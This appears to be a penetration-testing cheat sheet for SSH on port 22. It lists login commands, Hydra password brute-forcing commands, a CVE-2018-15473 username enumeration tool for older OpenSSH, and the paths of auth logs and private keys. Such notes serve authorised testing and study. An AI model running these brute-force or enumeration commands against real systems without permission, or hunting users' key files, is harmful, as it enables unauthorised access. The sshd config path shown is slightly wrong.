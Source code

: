 # 22 - SSH

## Basic Access to SSH

```bash
user@localhost~$ ssh <USER>@<IP>
Enter Password: 
```

## Acces with a Private Key

```bash
chmod 600 id_rsa
user@localhost~$ ssh -i id_rsa <USER>@<IP>
```

## Bruteforcing SSH with Hydra

### When you have an username

```bash
user@localhost~$ hydra -l <USER> -P <WORDLIST> <IP> ssh
```

### When you don't have an username

```bash
user@localhost~$ hydra -L <WORDLIST> -P <WORDLIST> <IP> ssh
```

## SSH User Enumeration

{% hint style="warning" %}
OpenSSH < 7.7
{% endhint %}

Tool : [SSH User Enumeration](https://github.com/epi052/cve-2018-15473)

```bash
user@localhost~$ ./ssh-username-enum.py -t <THREADS> -w <WORDLIST> <IP>
[+] <USERNAME> found!
```

## Common locations

### Auth log file

```
/var/log/auth.log
```

### sshd.conf

```
/etc/ssh/sshd.conf
```

### id\_rsa

```
/home/<USER>/.ssh/
```

## Generating id\_rsa & id\_rsa.pub

```
user@localhost~$ ssh-keygen
Generating public/private rsa key pair.
Enter file in which t o save the key (/home/user/.ssh/id_rsa):
Enter passphrase (empty for not passphrase):
Enter same passphrase again:
Your identiification key has been saved in /home/user/.ssh/id_rsa
Your public key has been saved in /home/user/.ssh/id_rsa.pub
```

